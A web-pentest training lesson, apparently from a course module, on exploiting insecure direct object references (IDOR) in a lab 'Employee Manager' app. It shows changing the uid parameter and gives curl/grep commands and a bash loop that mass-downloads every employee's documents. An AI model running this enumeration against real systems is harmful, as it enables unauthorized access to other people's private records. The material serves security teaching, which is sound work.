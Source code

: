 # Mass IDOR Enumeration

Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

Let's start discussing various techniques of exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering, to user privilege escalation.

***

## Insecure Parameters

Let's start with a basic example that showcases a typical IDOR vulnerability. The exercise below is an `Employee Manager` web application that hosts employee records:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our web application assumes that we are logged in as an employee with user id `uid=1` to simplify things. This would require us to log in with credentials in a real web application, but the rest of the attack would be the same. Once we click on `Documents`, we are redirected to

`/documents.php`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

When we get to the `Documents` page, we see several documents that belong to our user. These can be files uploaded by our user or files set for us by another department (e.g., HR Department). Checking the file links, we see that they have individual names:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

We see that the files have a predictable naming pattern, as the file names appear to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users. This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all. So, let's look for a more solid IDOR vulnerability.

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`). If the web application uses this `uid` GET parameter as a direct reference to the employee records it should show, we may be able to view other employees' documents by simply changing this value. If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`. However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records.

When we try changing the `uid` to `?uid=2`, we don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=2</p></figcaption></figure>

However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size. If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`:

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end. Another example is using a filter parameter to only display a specific user's documents (e.g. `uid_filter=1`), which can also be manipulated to show other users' documents or even completely removed to show all documents at once.

***

## Mass Enumeration

We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files, which is what we will do.

We can click on \[`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.
